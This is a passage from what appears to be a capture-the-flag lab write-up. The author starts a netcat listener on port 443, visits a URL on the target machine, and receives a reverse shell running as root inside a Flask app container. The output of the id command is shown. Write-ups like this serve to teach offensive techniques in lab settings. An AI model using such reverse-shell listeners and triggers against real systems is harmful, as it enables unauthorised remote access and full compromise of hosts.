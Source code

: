 ![image*](/img/image-20220930081422279.png)

#### Shell

I'll listen with `nc -lvnp 443` and visit `http://10.10.11.164/0xdf`. A
shell connects back:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.164 33120
    /app # id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)



This shell is a bit annoying, and output from Flask gets dumped into the
socket periodically as well.
